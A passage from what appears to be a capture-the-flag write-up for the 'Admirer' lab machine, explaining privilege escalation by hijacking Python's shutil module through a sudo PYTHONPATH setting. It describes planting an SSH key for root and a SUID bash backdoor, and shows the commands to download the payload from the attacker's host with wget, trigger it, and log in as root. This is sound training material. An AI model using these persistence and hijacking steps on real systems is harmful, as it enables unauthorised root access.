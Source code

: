 

This script uses `os.system` to do each of the things described above.
The first calls `mkdir -p` which will create the directory if it doesn't
exist, and happily return and continue if it does. Then it uses `echo`
to append my key to `authorized_keys`.

The second simply copies `/bin/bash` to `/var/tmp/.0xdf`, sets the owner
as root, and sets the permissions to SUID.

I also included a definition of the `make_archive` function. This will
prevent the script from crashing. This is unnecessary in this case where
I'm the user running the script. But if I were leaving this for an
unsuspecting user to come along and run later, this will prevent errors
from being thrown when `backup.py` tries to load the function. If I
wanted to go further, I could have this function actually create the
archives as expected.

#### Run It

Now I'll run this exploit with two commands. Upload it to Admirer with
`python3 -m http.server 80` on my VM and `wget`:



    waldo@admirer:/var/tmp$ wget 10.10.14.47/exploit.py -O shutil.py
    --2020-05-05 12:14:50--  http://10.10.14.47/exploit.py
    Connecting to 10.10.14.47:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 800 [text/plain]
    Saving to: ‘shutil.py’

    shutil.py                         100%[===========================================================>]     800  --.-KB/s    in 0s      

    2020-05-05 12:14:50 (123 MB/s) - ‘shutil.py’ saved [800/800]



Run `admin_tasks.sh` calling the web backup option (6):



    waldo@admirer:/var/tmp$ sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
    Running backup script in the background, it might take a while...



Now I can use either path to root. SSH:



    root@kali# ssh -i ~/keys/id_rsa_generated root@10.10.10.187
    Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue May  5 12:14:18 2020 from 10.10.14.47
    root@admirer:~#
